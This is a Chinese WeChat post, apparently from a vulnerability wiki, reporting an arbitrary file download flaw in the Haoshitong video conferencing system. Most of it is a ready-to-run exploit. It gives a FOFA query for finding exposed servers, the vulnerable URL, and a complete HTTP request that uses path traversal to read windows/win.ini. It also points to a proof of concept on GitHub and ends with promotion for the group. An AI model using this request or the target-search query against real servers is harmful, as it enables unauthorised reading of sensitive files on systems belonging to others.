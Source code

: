 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/F-M21PT0xn9QOuwoC8llKA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**公众号推荐**

**这个漏洞来自于 F12sec 的师傅，大家快快关注他们啦~**

公众号

**一****：漏洞描述🐑**

**银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息**

**二:  漏洞影响🐇**

**银澎云计算 好视通视频会议系统**

**三:  漏洞复现🐋**

```
FOFA: app="Hanming-Video-Conferencing"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3L7ee0BUTWa7icBbabrHIQGn6ZXnMEaC2rmeYeLPaQ87g0xf9nknNN5A/640?wx_fmt=png)

**漏洞 Url 为**

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

**请求包为**  

```
GET /register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: xxx.xxx.xxx.xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: mldn-session-id=7950aca4-6faa-46d9-858a-97b82d619741
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3QUjjWLYt3PO1JXGtbwlLww4HgkoA907OevIULD76z8IWurXb4VpiaUw/640?wx_fmt=png)

 ****四:  Goby & POC🦉****

```
Goby & POC 已经上传到 github 的 Goby & POC 目录
https://github.com/PeiQi0/PeiQi-WIKI-POC
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3iaicXatMRKT6TYUHvt0pz8yFvOwUrP36S8d8vzlBsOqFrKcXdOEwZdsw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG368fHF3y8RSyqz9F8S30UnKUVs54HVFiayMaRZjkYqPHzmicKaZIciabmw/640?wx_fmt=png)

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuR3NABhn2DHwpXzWABBJnA6HSjGYhvbow9iaFIXZ5IUrST4EjoHojtlg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuCFdyVD9UlKcV0COuXd5oajiacmB5LB71gLdCaEhRaiaicMTS8oq55s9pA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZu0SvJFXqSugecfEnJujNOic73ouoGndJPRvezpAstLqLJDqe6JqJsf2Q/640?wx_fmt=png)